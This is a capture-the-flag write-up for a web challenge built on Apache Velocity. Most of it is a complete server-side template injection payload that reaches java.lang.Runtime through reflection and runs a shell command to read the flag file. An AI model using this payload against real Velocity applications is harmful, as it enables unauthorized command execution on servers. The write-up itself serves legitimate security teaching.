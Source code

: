 # Labyrinth Linguist (<font color=lightgreen>Easy</font>)


## Description
You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.

## Tool Used
- Web Browser

## Skill Learned
- Server-Side Template Injection (SSTI)

## Steps
1. Inspecting the source code provided, we see the app uses: org.apache.velocity.Template
2. This points directly to Apache Velocity, and the text field is interpolated in a template file. Knowing that Velocity 1.7 is vulnerable to SSTI via CVE-2020-13936, this becomes our entry point.
3. Exploit Payload:
    ```
    #set($engine="string")
    #set($run=$engine.getClass().forName("java.lang.Runtime"))
    #set($runtime=$run.getRuntime())
    #set($proc=$runtime.exec("cat ../flag.txt"))
    #set($null=$proc.waitFor())
    #set($istr=$proc.getInputStream())
    #set($chr=$engine.getClass().forName("java.lang.Character"))
    #set($output="")
    #set($string=$engine.getClass().forName("java.lang.String"))
    #foreach($i in [1..$istr.available()])
    #set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))
    #end
    $output
    ```
    - Invoke java.lang.Runtime.getRuntime().exec()
    - Run cat ../flag.txt
    - Read the output byte-by-byte from the InputStream
    - Convert it to characters using Character.toChars()
    - Concatenate it into a final string and print it



